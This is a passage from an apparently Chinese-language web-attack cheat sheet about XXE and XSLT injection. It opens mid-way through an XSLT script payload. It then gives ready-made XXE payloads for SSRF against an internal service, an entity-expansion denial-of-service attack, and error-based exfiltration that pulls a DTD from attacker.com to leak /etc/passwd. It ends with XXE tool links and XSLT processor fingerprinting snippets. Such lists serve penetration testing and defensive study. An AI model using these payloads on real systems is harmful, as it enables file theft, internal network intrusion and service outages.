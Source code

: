 	return "Exploit Success";
	}
	]]>
	</msxsl:script>
	<xsl:template match="/">
	<xsl:value-of select="user:xml()"/>
	</xsl:template>
	</xsl:stylesheet>
 ##### XXE 进行 SSRF
	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
	]>
	<foo>&xxe;</foo>
 ##### XXE 进行拒绝服务攻击
  	<!DOCTYPE data [
	<!ENTITY a0 "dos" >
	<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
	<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
	<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
	<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
	]>
	<data>&a4;</data>
 ##### 基于报错的XXE
  	PAYLOAD:
  	<?xml version="1.0" ?>
	<!DOCTYPE message [
	    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
	    %ext;
	]>
	ext.dtd 的内容
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
	%eval;
	%error;
	<message></message>
 ##### 工具
  	https://github.com/staaldraad/xxeserv
	https://github.com/lc/230-OOB
	https://github.com/enjoiz/XXEinjector
	https://github.com/BuffaloWill/oxml_xxe
	https://github.com/whitel1st/docem
	http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html
 #### XSLT注入
 ##### 确定版本
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
```